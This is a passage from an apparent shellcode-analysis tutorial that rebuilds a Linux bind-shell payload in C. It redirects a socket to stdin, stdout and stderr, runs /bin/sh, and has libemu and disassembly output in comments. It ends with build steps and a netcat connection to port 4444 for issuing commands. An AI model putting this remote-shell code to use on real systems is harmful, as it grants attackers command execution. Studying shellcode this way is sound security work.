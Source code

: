 ```c	
     00000037  49            dec ecx         ; sub 1 from counter
     00000038  79F8          jns LBL1        ; loop until zero    
     
     it is easier to write out the call three times than loop
    */
    dup2(dupsockfd,0); // stdin
    dup2(dupsockfd,1); // stdout
    dup2(dupsockfd,2); // stderr
  
    /*
     execve
     int execve(const char *filename, char *const argv[],
                char *const envp[]);
     
     libemu:
       int execve (
         const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
             const char * argv[] = [
               = 0x00416faa => 
                 = 0x00416fb2 => 
                   = "/bin//sh";
                 = 0x00000000 => 
                   none;
             ];
         const char * envp[] = 0x00000000 => 
           none;
       )
     0000003A  682F2F7368    push dword 0x68732f2f  ; hs//
     0000003F  682F62696E    push dword 0x6e69622f  ; nib/
     00000044  89E3          mov ebx,esp    ; ebx, addr of /bin//sh
     00000046  50            push eax       ; null
     00000047  53            push ebx       ; ptr to /bin//sh
     00000048  89E1          mov ecx,esp    ; ecx, ptr to args
     0000004A  B00B          mov al,0xb     ; execve()
     0000004C  CD80          int 0x80       ; make the call
    */
    execve("/bin/sh", NULL, NULL);
}
```
Build the code:
```
$ gcc shellcode-in-c.c -o shellcode-in-c
```
Test above executable on localhost using netcat:
Open a terminal under working directory,
```
$ ./shellcode-in-c
```
Open another terminal,
```
$ nc localhost 4444
```
commands can now be executed in this terminal e.g. try typing ls to see contents of the directory.
